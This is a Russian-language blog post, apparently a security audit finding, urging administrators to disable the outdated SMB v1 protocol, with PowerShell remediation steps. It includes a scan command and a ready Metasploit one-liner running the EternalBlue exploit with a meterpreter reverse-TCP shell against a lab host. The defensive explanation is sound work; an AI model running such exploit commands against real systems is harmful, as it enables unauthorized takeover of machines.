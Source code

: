 ```yaml
---
layout: post
title:  "SMB v1"
categories: jekyll update
image: /images/Remote_Exploit_MS17010_.jpg
---
```


Об ограничении использования протокола SMB v1

#### Недостаток
На ряде объектов ЛВС используется небезопасный протокол SMB v1

#### Рекомендации
Ограничить использование в ЛВС протокола SMB v1. Рассмотреть возможность перехода на протоколы SMB v2/3

Включенный SMBv1 — это серьезная угроза безопасности. Этот устаревший протокол разработан более 30 лет назад, и его уязвимости широко известны злоумышленникам. 

Если SMBv1 активен, злоумышленник может:  
**1. Использовать эксплойты**:  
   - Один из самых известных примеров — **EternalBlue**, эксплойт, который стал основой для распространения таких атак, как **WannaCry** и **NotPetya**. Эти атаки нанесли ущерб на миллиарды долларов, выводя из строя больницы, корпорации и государственные учреждения.  
   - Эксплойт позволяет злоумышленнику получить полный доступ к системе без авторизации.  

**2. Распространение по сети**:  
   - Атаки, использующие SMBv1, часто имеют червеподобный характер, что означает, что после компрометации одного устройства злоумышленник может быстро проникнуть на другие системы в вашей сети.  
   - Это особенно опасно для корпоративных сетей, где устройства могут быть взаимосвязаны.  

**3. Кража данных**:  
   - С помощью доступа через SMBv1 злоумышленник может перехватывать файлы, пароли и другую конфиденциальную информацию, что приводит к утечкам данных.  

**4. Запуск удаленного кода**:  
   - SMBv1 позволяет злоумышленнику запускать вредоносные программы или команды, фактически захватывая управление над системой.  

Для злоумышленника работающий SMBv1 — это как старая дверь с разбитым замком: она легко открывается, даже если остальная часть дома защищена.

#### Почему это критично?  
Атаки через SMBv1 особо опасны потому, что:  
- **Быстрая масштабируемость**: Одна уязвимая система может привести к компрометации всей сети.  
- **Невидимость**: В некоторых случаях атаки могут проходить незамеченными, особенно в poorly monitored environments.  
- **Непрямые последствия**: Утечка данных или отказ оборудования могут привести к финансовым потерям, репутационным рискам или даже уголовным расследованиям.  

Используя эксплойт EternalBlue злоумышленник может получить административный доступ к хосту с включенным протоколом SMB v1.

```
netexec smb 192.168.56.202 -M ms17-010
```

![](/images/smb_v1/Pasted%20image%2020241208155045.png)

```
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set rhosts 192.168.56.202; set LHOST 192.168.56.200; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```

![](/images/smb_v1/Pasted%20image%2020241208155510.png)

#### Что делать?  
Отключение SMBv1 — это простой шаг, который может предотвратить катастрофу.  

**1. Проверить текущий статус SMBv1**:  
   На Windows-сервере или рабочей станции выполните команду в PowerShell:  
   ```
   Get-WindowsFeature -Name FS-SMB1
   ```  
   Если SMBv1 включен, статус будет отображаться как *Installed*.  

**2. Отключить SMBv1**:  
   Выполните следующую команду в PowerShell:  
   ```
   Disable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol" -NoRestart
   ```  

**3. Перезагрузите систему**, чтобы изменения вступили в силу.  

**4. Если в сети есть старые устройства, зависящие от SMBv1 (например, устаревшие сканеры), разработайте план их модернизации или замены.** 

#### Что видит злоумышленник после отключения SMBv1?  
Когда SMBv1 отключен:  
- При сканировании порта 445 я увижу, что SMB работает только на современных версиях (SMBv2 или SMBv3). Эти версии имеют встроенные механизмы защиты, такие как шифрование и аутентификация.  
- Эксплойты для SMBv1, такие как EternalBlue, больше не работают, что устраняет один из самых популярных методов атаки.  
- Моя атака замедлится или станет невозможной. Это заставит меня искать более сложные и менее очевидные уязвимости.

![](/images/smb_v1/Pasted%20image%2020241208162809.png)

В Windows 7 SMB v1 можно отключить  создав в реестре параметр `DWORD (32 бита)` в ветке реестра `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters`

#### Вывод:  
Оставлять SMBv1 включенным — это как оставить открытой дверь для злоумышленников. Вы теряете контроль над безопасностью сети, подвергая себя финансовым, репутационным и техническим рискам.  
Отключение SMBv1 — это быстрый и важный шаг, который моментально повышает защиту вашей инфраструктуры.  

Дополнительные ресурсы:

1. https://learn.microsoft.com/ru-ru/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server
2. https://habr.com/ru/companies/servermall/articles/331906/
3. https://codeby.school/blog/informacionnaya-bezopasnost/ekspluataciya-uyazvimostey-klassa-ms17-010

Картинка

https://evilsaint.com/article/remote-exploit-ms17-010/index.html